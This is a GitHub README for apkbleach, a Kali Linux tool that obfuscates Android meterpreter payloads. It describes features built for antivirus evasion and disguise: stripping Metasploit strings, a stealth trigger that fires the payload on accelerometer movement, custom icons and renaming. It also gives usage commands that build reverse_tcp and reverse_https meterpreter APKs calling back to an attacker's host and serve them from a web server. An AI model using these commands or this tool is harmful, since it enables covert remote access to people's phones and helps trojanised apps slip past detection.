 [![Language grade: Python](https://img.shields.io/lgtm/grade/python/g/graylagx2/ApkBleach.svg?logo=lgtm&logoWidth=18)](https://lgtm.com/projects/g/graylagx2/ApkBleach/context:python)
# apkbleach 2.1

**About:**
# Video
https://web.archive.org/web/20210208070719/https://www.youtube.com/watch?v=BNrGd55TBio&gl=US&hl=en

This software was developed specifically for Kali-Linux to obfuscate android payloads in attempts to evade detection. This software also automates the process of changing the app icon, changing the app name, signing the apk, aligning the apk and installing or upgrading apktool.

![Screen shot of sofware image](https://github.com/graylagx2/Images/blob/master/apkbleach2_final.png)

**Youtube instructional video:**

[![Watch the video](https://github.com/graylagx2/images/blob/master/Screenshot%20(24).png)](https://www.youtube.com/watch?v=tqgscJ93LFw)
   
**New Deployment UI feature**

![Screen shot of deployment image](https://github.com/graylagx2/Images/blob/master/apkbleach-deployment-ui.png)

**Features:**

1) User interface for deployment of payloads

2) Line by line permissions editing. The software will go through each permission in the manifest and ask if you want to delete it.

3) Stealth option. This executes the payload off the devices accelerometer instead of on open. This option also allows you to choose how many sessions you want spawned of exploit.

4) Custom icon injection. This allows users to modify the app icon that appears on the home screen of a android device. You can choose from a icon apkbleach provides or you can supply your own. Apkbleach will do all the work for you.

5) Renames the application to the name you put chose as the ouput file

6) Scrubs the entire application of any mentions of the name "metasploit" , "stage" or "payload". There are a lot by the way. sending security testing with an app that contains the name metasploit is just funny :-)

7) Adds padnops to PAYLOAD

8) Signs apk with jarsigner. msfenom produces unsigned apps

9) Zip aligns apk

10) Apktool upgrade feature. If the software detects youre using apktool version 2.4.1-dirty which is Kali's package maintainers version it will ask if you want to replace it with the lates version frfom ibot peaches. This is a good idea because it conflicts with the msfvenom -x option and throws a version number error. Not to mention the problems it has given users in the past.

**Usage:**

    apkbleach -g android/meterpreter/reverse_https LHOST=Address LPORT=port -s 3 -i BLEACH_settings --edit-permissions -o /var/www/html/payload.apk
    
    apkbleach -g android/meterpreter/reverse_tcp LHOST=address LPORT=port -s 3 --edit-permissions --deploy-all

     apkbleach --list-payloads
 
     apkbleach --list-icons
 
     apkbleach --clear-cache
 

**optional arguments:**

      -h, --help            show this help message and exit
  
      -g [PAYLOAD] [LHOST] [LPORT]
                        Generates a payload
                        
      -s [number of sessions to spawn 1-5]
                        Executes payload on accelerometer activity instead of on open
                        
      -i [BLEACH_icon..] or [path/to/custom/icon]
                        Injects an icon
                        
      -o [output/path/for/file.apk]
                        Path to output apk
                        
      --edit-permissions    Enables permission editing in apk's manifest
      
      --deploy-all          Deploys each available icon as a payload with the apache2 server with a web interface
  
      --list-payloads       List available icons
  
      --list-icons          List available icons
  
      --clear-cache         Allows prompt whether to keep package maintainers version apktool
  
**Install instructions:**

After cloning or downloading the repository cd into the apkbleach directory and run run install.sh

    cd apkbleach
    bash install.sh
    
or

    cd apkbleach
    chmod +x install.sh
    ./install.sh
